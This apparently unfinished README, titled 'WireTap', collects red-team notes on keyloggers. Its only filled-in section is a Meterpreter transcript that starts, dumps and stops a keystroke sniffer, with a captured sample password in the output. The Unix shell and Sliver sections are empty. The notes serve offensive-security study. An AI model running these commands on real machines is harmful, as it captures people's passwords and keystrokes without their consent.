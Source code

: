 # WireTap

## 01 - Keyloggers

### 1.1 - Unix Shell

TODO: Demonstrate using vim as a keylogger

### 1.2 - Metasploit

```
meterpreter > keyscan_start -h
Usage: keyscan_start <options>
Starts the key logger

OPTIONS:

    -h  Help Banner.
    -v  Verbose logging: tracks the current active window in which keystrokes are occuring.

meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
my password is Johnny1997!<CR>


meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### 1.3 - Sliver

---
## References

- [Hacktricks: Linux Hardening Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#clipboard)